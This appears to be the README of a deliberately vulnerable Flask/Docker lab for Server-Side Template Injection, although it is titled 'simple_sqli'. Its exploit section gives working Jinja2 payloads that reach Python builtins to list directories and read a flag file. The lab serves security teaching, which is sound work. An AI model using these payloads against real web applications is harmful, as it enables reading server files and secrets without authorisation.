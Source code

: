 # simple_sqli

Very simple SSTI(Server-Side Template Injection) environment with docker

## Environment

docker-compose.yml for ssti on flask

- Python: 3.7
- Flask: 1.1.2

## How to setup

```
$ docker-compose up
```

## How to exploit

Please visit localhost:5000

![home](./images/sc.png)

First, you can check directory like this:

```
{{request.application.__self__._get_data_for_json.__globals__.__builtins__.__import__('os').listdir('./')}}
```

and like this:

```
{{request.application.__self__._get_data_for_json.__globals__.__builtins__.__import__('os').listdir('./flag')}}
```

You can get the flag like this:

```
{{request.application.__self__._get_data_for_json.__globals__['__builtins__']['open']('./flag/flag.txt').read()}}
```
